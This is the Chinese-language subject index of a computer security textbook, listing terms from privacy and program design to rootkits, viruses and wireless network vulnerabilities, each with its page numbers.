##### 隐私法案 (U.S.)

*参见* U.S., Privacy Act

##### 隐私官

739

##### 隐私

586

###### 用于隐私的访问控制

594

###### 数据准确性

596, 599, 603, 608

###### 广告软件

629

###### 受影响方

589

###### 匿名性与

605

###### 匿名化

597, 613

###### 违规通知法

740

###### 儿童网络访问

598

###### 云计算

642

###### 收集限制

596

###### 商业与

604

###### 数据使用语境

588, 601

###### 受控披露

587

###### Cookie

627

###### 正确性，数据

596, 599, 608

###### 数据准确性

596, 599, 603, 608

###### 政府数据收集

738

###### 数据挖掘

537

###### 数据修改

597

###### 数据所有权

592

###### 数据质量

596, 599, 603, 608

###### 数据撤回

594

###### 禁止欺骗

600

###### 确定敏感度

587

###### 消失的邮件

635

###### 披露，受控

587

###### 欧盟数据保护法案

742

###### 经济与

832

###### 邮件监控与

632, 633

###### 邮件重发器

634

###### 加密与

597

###### 错误数据

608

###### 伦理层面

752

###### 欧洲

603

###### 期望

633

###### 公平市场

632

###### 金融服务机构

598

###### 政府数据滥用与

607

###### 政府监控与

645

###### 格雷姆-里奇-比利雷法案

739

###### Hadoop

544

###### 互联网用户 ID


# 索引

## T

**测试**，211

**验证**，221

## P

**程序复杂度**，149

**程序计数器**

- 修改，136，148，149
- 保护，150
- 脆弱性，147

**程序设计**

- 完全中介，217，316
- 深度防御，218
- 防御性编程，222
- 契约式设计，223
- 易用性，217，317
- 机制经济性，217，316
- 最小公共机制，217，317
- 最小权限，216，218，316
- 公开设计，217，316
- 基于权限，217，218，317
- 特权分离，217，317
- 简洁性，217
- 验证输入，217

**程序开发实践**，216

- 内聚性，206
- 封装，204，206
- 信息隐藏，204，206
- 隔离，203
- 模块化，203，204
- 相互怀疑，207

**程序等价性**，189，218，219

**程序文件**，修改，177

**程序缺陷**，184

**程序实现**，150。*另请参阅* 程序开发实践

**程序使用**，使用责任，758

**程序验证**，219

**程序，驻留**，188

**程序，共享访问**，287

**程序，终止并驻留**，188

**程序员**，程序使用责任，758

**编程错误**

- 缓冲区溢出，134，139，145
- 错误的序列化，163
- 输入验证失败，152
- 循环偏一，159
- 竞争条件，163
- 同步，163
- 检查时刻到使用时刻，159
- 未检查的数据，153

**编程语言**，150

**编程实践，不良**，158

**项目**，数据库操作，504

**滥杂接入点**，386

**正确性证明**，程序保证技术，219

**传播**

- 访问权，77，83
- 加密错误，778
- 恶意代码，180

**属性，作为资产**，3

**属性，法律规则**，734

**专有软件**，756

**起诉**，426

**受保护的言论**，595

**保护**，3，6，75，87

- 消费者金融，621
- Cookie 数据，625
- 版权，704
- 关键数据，281
- 数据，11
- 差异化，305
- 计算机对象的，716，717，721
- 不充分，608
- 分层，471
- 内存，284，321
- 移动代理，430
- 关键数据的，281
- 数据的，11
- 植入式医疗设备的，817

**保护轮廓**，328

**协议**，351

**协议，加密密钥交换**，105，107

**协议，WiFi**，376

**协议分析，有状态**，479

**代理，应用**，*参见* 应用代理防火墙

**假名**

- 与隐私，606，613
- 用于电子邮件，634
- 对象的，77

**PSOS（可证明安全操作系统）**，311，326

**心理学，攻击者的**，16–17

**公有云**，552，555，561

**公共领域**，705，755

- 公共领域中的 ECC，802

**公共热点，无线**，382，383

**公钥密码学**，`89`，93，100，101，102，109，118，795，802

- 用于数字签名，114，116，118

**密码算法的公开审查**，779

**拉取，命令与控制更新**，428

**数据使用目的，与隐私**，597

**推送，命令与控制更新**，428

## Q

**定性风险分析**，677

**质量**

- 数据的，与隐私，608
- 服务的，作为资产，3
- 软件的，733，816

**量化，安全的**，825

**定量风险分析**，677

**量子密码学**，807

**量子物理学**，807

**查询分析，数据库**，535

**查询语言，数据库**，504

**查询，数据库**，504

## R

**兔子**，170

**竞争条件**，163，815

**RACS（云存储冗余阵列）**，557

**雷达，干扰**，844

**放射治疗机器**，815

**辐射，用于网络拦截**，343

**射频识别**，*参见* RFID

**彩虹表**，`47`

**Randell, Brian**，296

**随机攻击**，14

**随机数生成器**，775，786，792，806

**随机样本泄露，数据库**，534

**随机化，地址空间的**，210

**范围泄露，数据库**，533

**勒索**，400，425

**速率限制**，490

**合理性**，831

**RC2**，792

**RC4**，389，393，792

**RC5**，794

**RC6**，795

**领域发现**，571

**重排，加密数据的**，786

**推理，伦理的**，747

**记录，数据库**，502

**记录保存，事件**，664

**恢复**，198

## 索引

### A

**攻击对策**，28

### D

**数据库**，516

### F

**来自恶意代码攻击**，179

### S

**系统**，74

### R

#### 重定向

**浏览器**，237

**流量**，413

#### 冗余

421，428

**备份和**，697

**数据库**，506

**Hadoop 和**，543

**网络设计**，367

**测试**，109

#### 参考监视器

**76**，155，**313**，454

#### 对信任的信任的反思

172

#### 寄存器

**基址**，298

**界限**，298

**界地址**，298

**程序计数器**，136

**栈指针**，136，146

#### 注册

**版权**，708

**专利**，712

#### 回归测试

213

#### 规律性

**在密码学中**，774

#### 法规

834

#### 关系

**数据库**，504

#### 可靠性

421

**数据**，827

**数据库**，513

**软件**，185

#### 重定位

**程序**，301

#### 重发器

**电子邮件**，634

**多重**，634

#### 残留

**磁性**，325

#### 远程访问木马 (RAT)

170

#### 远程擦除

559

#### 僵尸网络租赁

429

#### 重复

**在密码分析中**，776

#### 替换

**数据**，3，4

#### 替换型病毒

182

#### 重放攻击

432

**认证凭据**，365

**网络通信**，364

#### 复制

**数据**，697

#### 声誉

**作为资产**，671

#### 需求

**安全**，212，649，651

#### 驻留例程

188

#### 驻留型病毒

168

#### 剩余风险

23

#### 弹性

**网络**，847

#### 解析

**寻址**，414

#### 响应团队

663

#### 响应

**及时性**，11

#### 责任

**安全实施的**，650，653

#### 撤回

**数据**，594

#### 返回地址

**欺骗（网络）**，406

**子过程**，139

#### 重用

**认证数据**，243

**数字签名**，802

**对象**，325

**序列**，287

**软件** 206

#### *路透社*

19

#### 逆向工程

714，817

#### 评审

**程序**，158，819

#### 撤销

**访问权**，76

#### 循环备份

695

#### RFID

636

**设备**，817

**读取器**，638

**标签**，529，636

#### 正确与错误

747

#### 个人隐私权

597

#### Rijndael

98，790。*另请参阅* AES

#### 涟漪效应

827

#### 风险

824

**分析**，*参见* 风险分析

**承担**，669

**规避**，669

**沟通**，831

**数据访问和**，607

**暴露**，669

**极端事件**，24–25

**杠杆**，669

**管理**，22

**感知**，25，831

**剩余**，*参见* 剩余风险

**转移**，669

#### 风险分析

23，650，**668**

**准确性**，685

**收益**，684

**控制选择**，680

**执行难度**，685

**劣势**，684

**暴露**，681

**缺乏准确性**，685

**可能性估计**，676

**定性**，677

**定量**，677

#### Rivest, Ronald

103，107，792，795，800

#### Rivest–Shamir–Adelman 密码算法 (RSA)

*参见* RSA

#### 健壮性

**网络**，847

#### 流氓接入点

383

#### 流氓主机

**在无线网络中**，384

#### 流氓网络连接

382

#### 流氓程序

167

#### 基于角色的访问控制

85–86

#### *root*（Unix 身份标识）

329

#### 根域名服务器（互联网）

414，419

#### Rootkit

170，465，474，612

**Alureon**，334，336

**检测**，334

**根除**，334

**在操作系统中**，329

**在手机中**，329

**集成**，332

**移动电话**，329

**操作系统**，329

**Sony XCP**，335

**隐蔽**，333，335

**TDL-3**，334

#### 轮

**在 AES 中**，98

#### 分级披露

533

#### 路由器

351，352，401，492。*另请参阅* 路由

#### 筛选路由器

*参见* 包过滤网关

#### 路由

352，355，359，367，410，413，434，436

#### RSA 公司

275，439，779，795，804

#### RSA 加密

**算法**，102

**密码分析**，103

**密钥选择**，798

**加密速度**，103

#### 交战规则

848

#### 证据规则

734

#### Rushby, John

296

#### 俄罗斯

19，391，397，743，843，845

#### S/MIME

277，633

#### SaaS（软件即服务）

552，557

#### 安全港

604，742

#### 安全语言

149

#### 保障措施

**隐私**，597

#### 安全性

815

#### 盐值

**口令表**，47

## 索引

### S

**Saltzer, Jerome**, 75, 202, 216, 315, 735

**SAML (安全断言标记语言)**, 570

**断言方**, *参见* **IdP**

**断言**, 572

**认证请求**, 572

**认证响应**, 572

**IdP (身份提供者)**, 571

**信赖方**, *参见* **SP (服务提供者)**, 571

**SP (服务提供者)**, 571

**主体**, 571

**令牌**, *参见* **认证响应**

**样本量隐藏, 数据库**, 534

**采样**, 55

**采样, 统计**, 532

**圣地亚哥超级计算机中心**, 18

**沙箱**, **294**

**清理, 对象**, 325

**Sasser**, 431

**SATAN (密码管理工具)**, 43, 369

**卫星通信, 网络**, 346

**S-box, 在 DES 中**, 787, 789

**扫描, 端口**, 369, 456

**恐吓软件**, 170, 195

**Schaefer, Marv**, 221

**Schell, Roger**, 172, 219, 225

**模式, 数据库**, 502

**Schneier, Bruce**, 801

**Schroeder, Michael**, 75, 216, 315

**Scomp**, 323, 326

**范围, 事件**, 667

**筛选路由器**, *参见* **包过滤网关**

**脚本攻击**, 261, 423, 839

**脚本小子**, 196

**密封, 篡改检测**, 108, 112, 113

#### 保密性

- **保证迷思**, 227
- **代码**, 158, 185, 846
- **通信**, 116
- **加密**, 777
- **编程**, 184
- **安全弱点**, 158, 185, 836
- **投票**, 837

**密钥加密**, *参见* **对称加密**

**共享密钥, 在认证中**, 243

#### 安全

- **附加组件**, 364
- **关联, 在 IPsec 中**, 444
- **计算机**, 2
- **成本**, 171
- **面向安全设计**, 212
- **内核**, 287, **312**, 322
- **运营中心 (SOC)**, 397, 492, 666
- **边界**, 354
- **物理**, 447
- **策略**, 72, 466
- **程序开发**, 158
- **量化**, 825
- **软件设计与**, 310
- **成功**, 32
- **通过隐匿实现**, 185, 226, 356, 836

**Security Essentials, 微软安全工具**, 250

**安全信息与事件管理 (SIEM)**, 492, 493, 560, 568

#### 安全计划

- **验收**, 656
- **控制**, 653
- **可扩展性**, 655
- **维护**, 655
- **需求**, 653
- **实施责任**, 653
- **风险分析**, 668
- **团队成员**, 656
- **时间表**, 655

**段, 偏移量**, 304

**段, 大小**, 305, 307

**分段, 与分页结合**, 307

**分段, 内存**, **303**

**选择性备份**, 696

**自我保护, 操作系统的**, 290

#### 敏感数据

- **从智能手机访问**, 818
- **控制**, 814


- **数据库**, 518, 529
- **处置**, 692, 772
- **泄露**, 177, 818
- **截获**, 236, 692, 772
- **保护**, 603
- **RFID 标签与**, 638
- **时效性**, 844

**敏感信息, 受信息自由法约束**, 738
**敏感度, 在认证中**, **56**
**敏感度, 在数据挖掘中**, 537
**传感器**, 640, 815

### 分离

- **代码与数据**, 150
- **受控**, 296
- **加密**, 296
- **数据**, 11
- **分层**, 310
- **逻辑**, 296
- **恶意代码对策**, 195
- **物理**, 296, 688
- **潜在恶意代码**, 197
- **特权, 设计原则**, 217, 316
- **安全内核**, 312
- **TCB 与非 TCB 代码**, 320
- **时间**, 296
- **使用防火墙**, 452
- **虚拟化**, 292

**排序攻击**, 363
**排序, TCP**, 415
**串行重用**, 287
**序列化缺陷**, 163
**服务器**, 286
**服务器端包含**, 265
**服务, 降级**, 849
**服务, 拒绝**, *参见* **拒绝服务**
**服务, 窃取**, 750
**会话劫持攻击**, 386, 394, 415
**会话, 无线通信**, 393
**严重性, 危害的**, 22
**SHA**, 113, 800
**SHA-2**, 800
**SHA-256**, 564
**SHA-3**, 801
**影子字段, 数据库**, 516
**莎士比亚**, 246
**Shamir, Adi**, 103, 107, 788, 795
**Shannon, Claude**, 90, 777
**共享数据空间**, 141
**共享基础设施**, 566, 580
**共享密钥, 加密**, 92
**共享密码**, 569
**共享密钥, 在认证中**, 243
共享使用，操作系统，285
共享，74
受控，287，296
数据，287
强制执行，281
公平，753
事件响应信息，667
程序，287
资源，358
完全，296
屏蔽，阻断电子辐射，693
行移位，在 AES 中，790
Shneiderman, Ben，654
触电，816，817
网上购物，630
碎纸，692
SHS（安全哈希标准），*参见* SHA
回避，431，**490**
SIEM，*参见* 安全信息与事件管理
签名，数字，*参见* 数字签名
签名，恶意代码，192，198，200
基于签名的入侵检测系统，476，494
已签名代码，251
Silent Banker，234
简单邮件传输协议 (SMTP)，*参见* SMTP
简洁性，
加密过程，778
程序设计原则，217
程序质量，205
同时访问，11
同时执行，286
单点故障，55，557
单点登录，68，461，569
单密钥加密，*参见* 对称加密
单用户计算机，284
黑洞路由，490
态势评估，由入侵检测系统，488
大小，密文的，778
读卡器，324
窃取，认证令牌的，67
Skype，642
SLA（服务级别协议），555，567
Slammer，172，175
小样本隐藏，数据库，534
智能设备，814
智能手机，817
SMTP（简单邮件传输协议），273
SMTP 服务器，633
Smurf 攻击，404
Snapchat，635
嗅探器，343，345
Snow, Brian，19
SoBig，172，175
SOC，*参见* 安全运营中心
社会工程学，50，844
软件，
作为资产，3，671
作为资产，671
内聚性，206
正确性，206，728，729
耦合，206
封装，206
故障，6，730
故障，728
缺陷报告，731
信息隐藏，206
许可证，727，756
维护，205
所有权，725，754
补丁，731，733
专有，756
质量，733
质量，210，221
可靠性，815
退回有缺陷产品，730
复用，206
盒装，729
易用性，728
软件即服务 (SaaS)，552，557
软件设计，310
损害控制，311
分层，311
安全内核，312
软件开发实践，*参见* 程序开发实践
Sony XCP Rootkit，335
源地址欺骗，404
源，在大数据中，547
Spafford, Eugene，761
垃圾邮件，431，633，635，740
用其做广告，270
发送收费，273
法律，271
链接到恶意代码网站，271
位于法律管辖范围外，271
模式识别，272
药品，270
拉高出货，270
股票，270
美国《反垃圾邮件法》，272
不可靠的源地址，272
数量限制，272
数量，268
鱼叉式网络钓鱼，274，844
特种作战，842
特异性，在认证中，**56**
言论，受保护的，595
速度，加密的，126
拼接，
电缆，344，363
代码修改，337
欺骗，844
地址，413，490
DNS，409
电子邮件，635
源地址，404
间谍活动，92，845
间谍软件，170，628，630
SQL，504
SQL 注入攻击，263
Square，支付方案，621
SSH（安全外壳）加密，438
SSID（安全集标识符），378，**381**，383
隐藏，384
自动连接到，387
SSL（安全套接层）加密，235，387，**438**，444，561，794
Apple 漏洞，213
大数据应用，548
实现缺乏多样性，210
会话，439
STaaS（存储即服务），*参见* 云存储
栈，146
栈帧，146
栈帧，保护，**150**
栈内存，136，139
栈指针，136，146
栈指针，保护，150
栈溢出，145，148
StackGuard（栈保护软件），150
跟踪狂，820
启动项（自动执行程序），181，189
启动，操作系统 280，323
状态机，479
基于状态的入侵检测系统，478

### 索引

#### S

**有状态检查防火墙**, 458
**有状态协议分析**, 479
**统计分析**, 477
- 密码分析中，776
**统计抽样**, 532
**统计，Web 使用**, 626
**法规**, *参见* 法律
**隐蔽**, 487
- 模式，无线网络，384
- 恶意代码，189，190，428
**隐写术**, 192
**Stoll, Cliff**, 295，667
**存储，网络化**, 用于备份，697
**策略，业务连续性**, 660
**strcpy**, 字符串复制工具，162
**流密码**, 793
**流加密**, **93**
**街景，Google**, 378
**强度，加密的**, 97，777
**字符串复制程序**, 162
**字符串**
- 长度，161
- 以空字符结尾，161
- 终止，161
**strncpy**, 字符串复制工具，162
**STU-III 安全电话**, 244
**震网病毒**, 20，174，175，368，843，847
**主体**, **38**，72
**主体，数据**, 9
**主观概率**, 676
**子网**, 450
**子过程**, 139
**子模式，数据库**, 502
**替换**, 363
- 攻击，363
- 加密数据，786
- 在 AES 中，98
- 在密码学中，95，103，774
- 步骤，在 DES 中，96
**子任务**, 204
**颠覆**, 815
**起诉，合同法**, 725
**B 套件，加密算法**, 803
**管理程序，操作系统**, 136，280
**抑制，数据**, 529
**抑制，有限响应**, 532
**攻击面**, *参见* 攻击面
**冲浪，与隐私**, 624
**浪涌抑制器**, 688
**监控，政府，与隐私**, 645
**调查结果，可比性**, 830
**交换**, 303
- 数据库，535
- 值，618
**Sweeney, Latanya**, 527，615
**切换云提供商**, 556
**对称密码**, 789
**对称加密**, **88**，92，96，786
**SYN 洪水攻击**, 405
**SYN 数据包**, 406
**SYN-ACK**, 406
**同步**, 281
- 程序，163
- TCP，416
**叙利亚**, 844，845
**系统日志**, 567，582
**系统，计算机**, **3**
**系统，可信**, *参见* 可信系统
**系统，易用性**, 12
**Syverson, Paul**, 443

#### T

**平板电脑**, 818
**标签，RFID**, 636
**标记架构**, 301，305
**篡改检测**, 151
**篡改，数据**, 109
**篡改，防护**, 113
**防篡改，参考监视器属性**, 76
**防篡改密封**, 840
**目标，有吸引力的**, 27
**Target 公司**, 609，616
**定向攻击**, 14，19
**定向，行为**, 626
**任务**, **286**
- 后台，358
**TCP 连接**, 415
**TCP/IP**, 439
**TCSEC (可信计算机系统评估标准)**, *参见* 可信计算机系统评估标准
**TDL-3 (恶意代码)**, 334
**TDSS Rootkit**, 336
**泪滴攻击**, 407
**远程办公者**, 449
**目的论**, 748
**电话，隐私与**, 642
**电视**, 1
**温度，对半导体的影响**, 772
**Tempest**, 693
**模板，用于生物特征认证**, 59，62
**临时密钥完整性协议 (TKIP)**, 393
**驻留例程**, 188
**服务条款**, 643
**使用条款**, 592，763
**恐怖主义**, 20–21
- 与隐私，607
**测试**, 210，221
- 验收，211
- 黑盒，214
- 白盒，214
- 完整性，214
- 覆盖率，214
- 有效性，215
- 功能，211
- 独立，215
- 安装，211
- 集成，211
- 局限性，215
- 渗透，218
- 性能，211
- 回归，213
- 单元，211
**TFN**, *参见* 部落洪水网络
**TFN2K**, *参见* 部落洪水网络 2000
**《布谷鸟的蛋》**, 668
**盗窃**, 689，692，734
- 信用卡，19，22
- 威慑，692
- 身份，609
**Therac 25**, 815
**第三方广告**, 622
**第三方 Cookie**, 625
**Thompson, Ken**, 43，172
**线程**, 163，**286**
**威胁**, **5**，**6**，8，13，25
**威胁**, **6**，8
- 高级持续性，*参见* 高级持续性威胁
- 用于决策，826
- 恶意，**14**
- 网络断开，849
- 非恶意，**14**，420
**威胁面**, 820
**阈值**, 55
**票据，访问控制机制**, 82
**老虎小组分析**, *参见* 渗透测试
**定时炸弹**, 170
**时间**
- 窃取，750
- 响应 *参见* 响应时间
- 价值，824
- 等待，*参见* 等待时间
**及时性**, 777
- 数据，827
- 响应，11
- 时效性敏感数据，844

#### 索引

##### T

**资产价值**, 4
**检查时间到使用时间 (TOCTTOU) 错误**, **155**
**TJX 公司**, 数据窃取, 19, 391
**TKIP (临时密钥完整性协议)**, 393
**TLS (传输层安全) 加密**, *参见* SSL
**TNO (零信任/不信任任何人)**, 562, 564
**TOCTTOU 错误**, *参见* 检查时间到使用时间错误
**马桶传感器**, 592
**令牌**
- 活动, **66**
- 动态, **67**
- 用于认证, 65, **66**
- 被动, **66**
- RFID, 636
- 静态, **66**
**容错**, 故障, *参见* 故障容错
**工具包**, 166, 170, 196
**顶级域**, 414
**拓扑**, 网络, 849
**TOR (洋葱路由器)**, *参见* 洋葱路由
**侵权法**, 722
**欧拉函数**, 欧拉, 797
**追踪器**
- 数据库中的推理, 524
- 网页, 623
**追踪**
- 主动, 628
- 互联网, 254, 620, 622, 623, 627
- 被动, 627
- RFID 标签, 638
**追踪 Bug**, 254
**商业秘密**, 714, 720, 734
- 执行，714
- 非法访问，714
- 所有权，727
- 逆向工程，714
- 保密性，714
**商标**, 717
**流量重定向**, 413
**转移**, 风险, 669
**暂态病毒**, 168
**转换**, 地址, *参见* 地址转换
**传输**
- 错误，361
- 故障，420
- 恶意代码传播，180
**透明度**, 与隐私, 629
**透明图片**, 互联网, 629
**传输模式**, 在 IPsec 中, 446
**置换**, 在密码学中, 95, 103, 774
**陷阱门**, 158, 170, 356, 787, 790, 845
**条约**, 848
**非法侵入**, 761
**三要素**, C-I-A, *参见* C-I-A 三要素
**分诊**, 事件响应, 664
**部落洪水网络 (TFN)**, 18, 424
**部落洪水网络 2000 版 (TFN2K)**, 18, 424
**Trin00 (恶意软件)**, 18, 424
**三重 DES**, **96–97**, 98
**三元组**, 访问控制, 78–79, 81
**Tripwire (修改检测程序)**, 112, 165, 251, 481
**特洛伊木马**, 169, 170, 423. *另见* 恶意代码
**Trope**, Roland, 730
**信任**, 76, 117, 172, 288, 310, 316, 409, 412, 454, 818, 838
**可信代码**, 289
***可信计算机系统评估标准***, 318, 323, **327**, 651
**可信计算基 (TCB)**, 318, **319**
**可信路径**, 323
**可信系统**, 316
**可信计算倡议**, 微软, 222, 326
**真实性**, 747, 762
**调优**, 网络, 431, 489
**隧道模式**, 在 IPsec 中, 446
**隧道**, 加密, 448
**元组**, 数据库, 504
**Turn**, Rein, 597
**Tversky**, Amos, 25
**Twitter**, 595
**双因素认证**, 70
**两阶段更新**, 数据库, 514

##### U

**美国儿童在线隐私保护法案 (COPPA)**, 598
**美国计算机应急响应小组 (CERT)**, 424
**美国计算机欺诈和滥用法案**, 738
**美国国防部**, 7, 608, 694, 842
**美国卫生、教育和福利部**, 596
**美国司法部**, 15, 19, 20, 21, 61, 64
**美国经济间谍法案**, 738
**美国联邦调查局 (FBI)**, 19, 20, 21, 61, 64
**美国联邦教育权利和隐私法案**, 598
**美国联邦贸易委员会**, 599, 601, 610
**美国信息自由法案 (FOIA)**, 738
**美国健康保险流通与责任法案 (HIPAA)**, 598, 739, 753
**美国国家标准局 (NBS)** 95, 97, 779, 788. *另见* 美国国家标准与技术研究院
**美国国家标准与技术研究院 (NIST)** 14, 95, 98, 429, 789, 800, 801, 806, 811. *另见* 美国国家标准局
**美国国家安全局 (NSA)**, 97, 781, 787, 788, 794, 801, 803, 805, 806
**美国隐私法案**, 597, 738
**美国统一商法典 (UCC)**, 729
**美国爱国者法案**, 740
**UCC**, *参见* 美国统一商法典
**乌克兰**, 166, 845
**未经检查的数据**, 153
**不可判定性**, *参见* 可判定性
**未记录的访问点**, 27, 157. *另见* 后门
**无意错误**, 6, 420
**不间断电源**, 688
**唯一身份**, 606
**单元测试**, 211

#### 索引

##### U

美国，15，19，211，743，772，843，846
Unix，81，291，329
不安全代码，150
未终止字符串，161
可用性，51，75，242
大规模，51，52
小规模，51，52
系统，12
投票系统，841
使用，
资产，7
数据，11，608
用户，72
用户界面，815，840
中间人用户，237
功利主义，749
实用程序，284


##### V

验证，程序保证技术，221

值交换，618

值，资产的，**4**、6、21

值，数据的，736

破坏公物，689

变异性，在生物特征认证中，55、59、64

VAX，DEC 计算机，290

供应商锁定，556

Venema, Wietse，369

可验证性，参考监视器属性，76

验证，程序，*参见* 程序验证

Verizon 违规报告，171

Vernam 密码，775

查看，数据，9

查看，资产，7

弗吉尼亚州，421

虚拟基础设施，581

虚拟机，**292**、579

虚拟内存，303

虚拟专用网络 (VPN)，**447**、492、633

虚拟化，在操作系统中，**292**

病毒，**167**、329

追加型，181

附件型，188

引导扇区，187

破坏性，176

检测器，198–199、295

文档型，180

加密型，194

骗局，176

驻留内存型，188

多部件型，178

持久型，168

多态型，193

驻留型，168

暂时型，168

*另见* 恶意代码

VM (虚拟机)，558、567、579

IP 语音，*参见* VOIP

VoIP，642

基于流量的攻击，拒绝服务，*参见* 容量攻击

容量攻击，398、399、423

投票，电子、

投出选票，834

计票，836

隐私，641

VPN，*参见* 虚拟专用网络

漏洞、**5**、6、**28**

后门，158

披露，731–733、760、833

完全披露，760

部分披露，760

电子投票，834

利用，419

发现，760

用于决策，826

纸质选举，834

竞争条件，163

报告，负责任，732

风险分析，672

扫描，431、482

搜索，761

工具包，166、419

陷阱门，158

未文档化入口，158

零日，172

漏洞-威胁-控制范式，5

##### W

等待时间，11

Waladec，垃圾邮件网络，269、429

战争驾驶，网络，382

《世界大战》，2

Ware, Willis，13、172、318、596、597

战争，常规，842、846

战争，网络，*参见* 网络战

水门窃听案，596

水印，数字，710

弱加密，388

弱口令，568

弱点，5

在密码学中，806

武器、

网络，847

动能，847

Web \[即互联网\]，*参见* 互联网

Web

Bug，254、627

内容，虚假，246

托管，566

页面，伪造，117

站点篡改，20、246

站点，伪造，249

站点，隐私，599、600

Welke, Stephen，10–11

Welles, Orson，2

Wells, H. G.，2

WEP (有线等效隐私)，379、388、398、794

弱点，389–390

举报人，613

白帽黑客，759

白宫，网络钓鱼攻击受害者，275

白名单，应用，581

Whittaker, James，210、211、214

WiFi

通信，364、*另见* 无线网络

帧，379

信号拦截，391

WikiLeaks，473、486、595、620

通配符，在访问控制中，**81**

Windows 操作系统，291、302、339、818

无线客户端，364

无线通信，364、376、816。*另见* WiFi 通信

无线网络

关联，380

认证，380

认证，385

可用性，382

基站，382

广播模式，384

封闭模式，384

机密性，381

加密，383

完整性，381

开放模式，384

流氓接入点，383

流氓主机，384

隐身模式，384

#### 索引

##### W

**无线网络漏洞**

- 关联劫持，386
- 认证，不存在，390
- 可用性，382
- 机密性，381
- 加密初始化向量冲突，389
- 完整性检查缺陷，390
- 不完整的认证，394
- 完整性，381
- 完整性检查，390
- 完整性失效，395
- MAC 地址欺骗，394
- 中间人攻击，394
- 无认证，390
- 混杂接入点，386
- 流氓主机，384
- 会话劫持，394
- 短加密密钥，388
- 静态加密密钥，388
- 弱加密，388

**窃听攻击**，242、343、344、354、355、360、628、739、770、771

**Word 宏病毒**，10

**工作因子**，227

**工作因子，密码学**，91、97

**雇佣作品**，726

**1996 年世界知识产权组织条约**，705

**第二次世界大战**，89、107、771、772

**蠕虫**，168。*另请参阅* 恶意代码

**蠕虫，Morris**，*见* Morris 蠕虫

**WPA (WiFi Protected Access)**，390、794

**WPA 攻击**

- MAC 地址欺骗，394
- 中间人攻击，394

**XCP，Sony Rootkit**，335

**XMLDSig (XML 数字签名)**，572

**X 射线**，815

**是或否测试，在认证中**，56、62

**Yoran, Amit**，209

**Zatko, Peter (Mudge)**，139–140

**零日漏洞利用**，172 **419**

**Zeus，漏洞工具包**，245、419

**邮政编码，美国**，615

**僵尸主机**，170、423、426

##### 代码片段

```
  

          

 

  

          
```
